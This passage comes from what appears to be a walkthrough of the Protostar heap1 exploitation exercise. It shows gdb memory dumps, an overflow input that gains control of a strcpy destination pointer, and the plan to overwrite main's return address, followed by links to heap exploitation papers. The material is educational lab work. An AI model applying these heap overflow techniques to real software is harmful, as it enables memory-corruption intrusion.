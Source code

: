 ```shell
(gdb) info proc map
process 2034
cmdline = '/opt/protostar/bin/heap1'
cwd = '/home/user'
exe = '/opt/protostar/bin/heap1'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
         0x804a000  0x806b000    0x21000          0           [heap]

... <snip> ...
```

```shell
(gdb) x/50x  0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c0:      0x00000000      0x00000000
```

To overwrite the `0x0804a038` pointer, we see that we need to write 20 bytes
followed by the memory address where we want the second `strcpy` call to write
to. We confirm this by attempting to write to `0x42424242` which should result
in a segmentation fault.

```shell
(gdb) run `python -c "print 'A' * 20 + 'BBBB'"` CCCC
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + 'BBBB'"` CCCC

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x42424242 <Address 0x42424242 out of bounds>, src=0xbffff96b "CCCC") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

Now that we can write to an arbitrary address, what and where should we write?
The natural thought here is to overwrite the the return address of `main()` on
the stack with the memory address of `winner()`.


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[protostar-format-writeup]: 2018-05-27-protostar-walkthrough-format
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap